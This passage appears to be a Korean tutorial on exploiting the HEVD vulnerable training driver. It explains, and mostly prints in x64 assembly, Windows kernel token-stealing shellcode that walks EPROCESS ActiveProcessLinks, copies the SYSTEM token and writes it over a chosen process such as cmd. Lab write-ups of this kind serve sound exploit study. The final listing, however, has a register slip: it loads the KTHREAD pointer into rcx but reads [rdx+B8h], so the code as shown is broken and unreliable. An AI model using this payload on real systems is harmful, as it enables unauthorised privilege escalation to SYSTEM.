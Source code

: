 우리가 필요한건 `UniqueProcessId`와 `ActiveProcessLinks`이다. 먼저 `ActiveProcessLinks`의 head를 가져오고, 이 값으로부터 -0x8의 위치에 있는 PID를 가져와 비교를 하면 된다. `System` 프로세스가 아닌 경우, `ActiveProcessLinks`의 `Flink`를 가져와 다음 프로세스와 비교하는 구문을 만들면 되는 것이다.

```
MOV r8, [rdx+2e8h]	; ActiveProcessLinks List Head
MOV rcx, [r8]	; First process in List

find_system:
	MOV rdx, [rcx-8]	; UniqueProcessId
	CMP rdx, 4	; if System Process
	JZ GetToken
	MOV rcx, [rcx]	; if not System Process, Next process List
	JMP find_system	; Loop
```

`ActiveProcessLinks`를 찾게 되면 이전에 찾은 `KTHREAD`, `EPROCESS` 포인터가 없어도 오프셋 놀이를 통해 모두 접근이 가능하기 때문에 `rcx`와 `rdx` 레지스터를 임시 레지스터로 사용했다. `LIST_ENTRY` 구조체에 대해서는 검색해보면 `DKOM` 기법 관련하여 많이 나오기도 하고, 직접 눈으로 보는걸 추천한다.

#### 3. Get "System" Process Token

`System` 프로세스를 찾았다면 이제 해당 권한의 토큰을 가져와야 한다. 프로세스 구조체를 찾았으니 쉽게 토큰 값을 저장할 수 있다.

먼저 계산을 해보자. 현재 `rcx`는 `System` 프로세스의 `EPROCESS` 구조체 중 `ActiveProcessLinks` 값을 갖고 있다. `Token` 멤버의 경우 `0x358` 위치에 존재하므로 `0x358 - 0x2e8`을 하게 되면 `rcx+70h` 으로 토큰 값을 가져올 수 있다.

```
GetToken:
	MOV rax, [rcx+70h]	; Move token
	AND al, 0f0h	; Clear low 4bits
```

위에서 얘기했던 연산부분이다. 결론적으로 마지막 4bit를 버리는 연산이었다. rax의 하위 4비트를 가져와 `f0`으로 AND연산하여 버리게 된다.

이렇게하면 정확한 프로세스의 토큰 값을 얻을 수 있으며, 이제 `RAX` 레지스터에 `System` 프로세스의 토큰 값이 저장되어 있다.

그 이후에는 `cmd` 나 내가 원하는 프로세스를 2번의 과정을 반복하여 찾고, 해당 토큰 값을 저장해주면 끝이다.
4,5번은 생략한다.

이를 쉘 코드를 작성하면 다음과 같이 볼 수 있다.

```
start:
	MOV rcx, [gs:188h]	; Get KTHREAD pointer
	MOV rdx, [rdx+B8h]	; Get EPROCESS pointer 
	MOV r8, [rdx+2e8h]	; ActiveProcessLinks List Head
	MOV rcx, [r8]	; First process in List

find_system:
	MOV rdx, [rcx-8]	; UniqueProcessId
	CMP rdx, 4	; if System Process
	JZ GetToken
	MOV rcx, [rcx]	; if not System Process, Next process List
	JMP find_system	; Loop
GetToken:
	MOV rax, [rcx+70h]   ;offset to token
	AND al, 0f0h         ;clear low 4 bits of _EX_FAST_REF structure
	
find_cmd:
    MOV rdx, [rcx-8]     ;ActiveProcessLinks - 8 = UniqueProcessId
    CMP rdx, <PID>       ;UniqueProcessId == ZZZZ? (PLACEHOLDER)
    JZ CopyToken         ;YES - move on
    MOV rcx, [rcx]       ;NO - next entry in list
    JMP find_cmd         ;loop
CopyToken:
    MOV [rcx+70h], rax   ;copy SYSTEM token over top of this process's token
return:
    add rsp, 28h         ;HEVD+0x61ea
    ret
```